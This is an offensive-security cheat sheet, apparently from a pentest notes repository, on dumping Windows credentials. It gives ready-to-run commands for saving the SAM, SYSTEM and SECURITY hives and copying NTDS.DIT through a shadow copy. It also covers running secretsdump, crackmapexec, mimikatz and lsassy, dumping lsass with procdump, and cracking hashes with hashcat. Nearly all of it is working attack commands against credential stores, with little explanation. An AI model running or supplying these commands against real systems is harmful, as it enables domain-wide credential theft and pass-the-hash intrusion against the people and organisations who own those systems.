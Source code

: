 # Secrets Dump
On DC you can retrieve NTDS.DIT file for domain users. hashes can be used for Pass The Hash attack (except cached hashes).

Requirements:
* Probably need administrator or SYSTEM or debug privileges

## Keys (SYSTEM)
`reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM`

## Domain hashes & kerberos keys (NTDS.DIT)
```
vssadmin create shadow /for=C:
copy <SHADOW_PATH>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<SHADOW_ID>
```
`impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --ntds`
Needs port 139 or 445 to be open

mimikatz # `lsadump::dcsync \all`

## Local hashes (SAM)
`reg SAVE HKLM\SAM C:\Windows\Temp\SAM`
`impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --sam`
Needs port 139 or 445 to be open

mimikatz # `token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>`
mimikatz # `token::elevate lsadump::sam`

## LSA secrets & cached domain hashes (SECURITY)
`reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY`
`impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --lsa`
Needs port 139 or 445 to be open

mimikatz # `token::elevate lsadump::lsa /patch`
mimikatz # `token::elevate lsadump::cache`

## Cached domain hashes (lsass process)
Needs port 139 or 445 to be open
`lsassy -d <DOMAIN> -u <USER> -p <PASS> <IP>`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy`

`procdump -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp`
mimikatz # `sekurlsa::minidump <DUMPFILE>`

mimikatz # `sekurlsa::logonPasswords`




`hashcat -m 1000 <HASH> <PASSLIST> --potfile-disable`
`hashcat -m 2100 <HASH> <PASSLIST> --potfile-disable`


`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`

crackmapexec